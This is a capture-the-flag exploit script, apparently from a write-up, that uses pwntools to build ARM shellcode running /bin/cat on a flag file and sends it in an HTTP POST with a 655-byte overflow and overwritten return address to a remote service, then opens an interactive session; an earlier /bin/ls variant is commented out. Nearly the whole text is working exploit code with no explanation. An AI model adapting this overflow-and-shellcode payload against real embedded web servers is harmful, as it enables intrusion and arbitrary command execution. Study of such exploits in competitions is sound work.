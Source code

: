 ```python
from pwn import *
#context.log_level = 'debug'
context(arch='arm')

# shellcode  = asm('''
# add   r4, pc, #56
# str   r4, [sp, #8]
# sub   r2, r2, r2 
# strb  r2, [r4, #4] 

# sub   r2, r2, r2       
# add   r3, pc, #28      
# str   r3, [sp, #4]     
# str   r2, [sp, #12]     
# mov   r0, r3, lsl r2   
# strb  r2, [r3, #7]     
# add   r3, pc, #4       
# add   r1, sp, #4       
# strb  r2, [r3, #1]     
# swi   0x90ff0b         
# ''')+'/bin/ls//tmp'


shellcode  = asm('''
add   r4, pc, #60
str   r4, [sp, #8]
sub   r2, r2, r2 
strb  r2, [r4, #25] 

sub   r2, r2, r2       
add   r3, pc, #28      
str   r3, [sp, #4]     
str   r2, [sp, #12]     
mov   r0, r3, lsl r2   
strb  r2, [r3, #8]     
add   r3, pc, #4       
add   r1, sp, #4       
strb  r2, [r3, #1]     
swi   0x90ff0b         
''')+'/bin/cat/////tmp/ffffffllllaaaaaagggg'

p = remote('20.21.2.27', 5000)

payload  = 'POST /'+"\x11"*6+shellcode+'\r\n\r\n'
payload += 'name='+'a'*655+p32(0x22504)+'&bbb=./;'

p.send(payload)
p.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/pwn3.png)
